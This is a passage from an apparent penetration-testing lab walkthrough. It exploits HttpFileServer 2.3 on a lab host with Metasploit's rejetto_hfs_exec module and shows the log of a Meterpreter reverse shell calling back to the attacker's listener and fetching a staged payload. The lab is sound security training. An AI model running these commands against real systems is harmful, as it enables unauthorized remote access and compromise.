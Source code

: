 #### **🔍 Critical Discovery:**
- **HttpFileServer 2.3** - Specific version identified
- **Windows OS confirmed** - Target operating system verified
- **Known vulnerable service** - HFS 2.3 has documented exploits

#### **Attack Strategy:**
HttpFileServer 2.3 has well-known remote code execution vulnerabilities that we can exploit using Metasploit.

---

### **Step 3: Exploit Research and Selection**

**What We're Doing:** Finding the right exploit for the identified service

#### **Command Used:**
```bash
searchsploit hfs
```

#### **What We Found:**
Multiple exploits available for HttpFileServer, particularly focusing on version 2.3 with remote command execution capabilities.

#### **Metasploit Module Selection:**
```bash
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit
```

#### **🎉 Exploitation Success:**
```bash
[*] Started reverse TCP handler on 10.10.31.2:4444
[*] Using URL: http://10.10.31.2:8080/SNQvpTusXF
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /SNQvpTusXF
[*] Sending stage (176198 bytes) to 10.0.20.121
[*] Meterpreter session 1 opened (10.10.31.2:4444 -> 10.0.20.121:52506)

meterpreter >
```

#### **What This Means:**
- **Meterpreter session established** - We have remote access
- **Reverse TCP connection** - Target connects back to our machine
- **Interactive shell available** - Can execute commands on target
- **Ready for privilege escalation** - Next step is token impersonation

---
